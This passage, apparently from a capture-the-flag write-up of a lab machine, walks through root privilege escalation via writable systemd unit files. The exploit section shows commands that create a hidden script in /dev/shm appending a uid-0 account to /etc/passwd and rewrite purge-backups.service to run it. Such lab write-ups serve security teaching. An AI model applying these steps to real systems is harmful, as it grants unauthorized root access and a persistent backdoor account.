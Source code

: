 In the first section, `After`, `Requires`, and `BindsTo` say that this service will only run after `zabbix-agent.server`, and only while it is running. I can see this if I run `/home/zapper/utils/zabbix-service stop`, I stop seeing the purge script in `journalctl` as well.

In the second section, it defines that the service will start 15 seconds after boot, and while active every 5 minutes.

#### Exploit

The flaw here is that while the service runs as root, both of these files that define the service are writable by zapper:

```

zapper@zipper:/etc/systemd/system$ ls -l purge-backups.*
-rw-rw-r-- 1 root zapper 132 Sep  8 13:22 purge-backups.service
-rw-rw-r-- 1 root zapper 237 Feb 21 09:15 purge-backups.timer

```

There are tons of ways to get to root from here. I’ll add a root user to /etc/passwd.

First, I’ll create a script that does that:

```

zapper@zipper:/dev/shm$ openssl passwd 0xdf
ydmNDQhnaXn92

zapper@zipper:/dev/shm$ echo -e '#!/bin/sh\n\necho "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd'
#!/bin/sh

echo "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd

zapper@zipper:/dev/shm$ echo -e '#!/bin/sh\n\necho "df:ydmNDQhnaXn92:0:0:root:/root:/bin/bash" >> /etc/passwd' > .a.sh

```

Now I’ll make a copy of the original into `/tmp`, and then update `purge-backups.service`:

```

zapper@zipper:/dev/shm$ cp /etc/systemd/system/purge-backups.service /tmp/

zapper@zipper:/dev/shm$ vi /etc/systemd/system/purge-backups.service

zapper@zipper:/dev/shm$ cat /etc/systemd/system/purge-backups.service
[Unit]
Description=Purge Backups (Script)
[Service]
ExecStart=/dev/shm/.a.sh
[Install]
WantedBy=purge-backups.timer

```
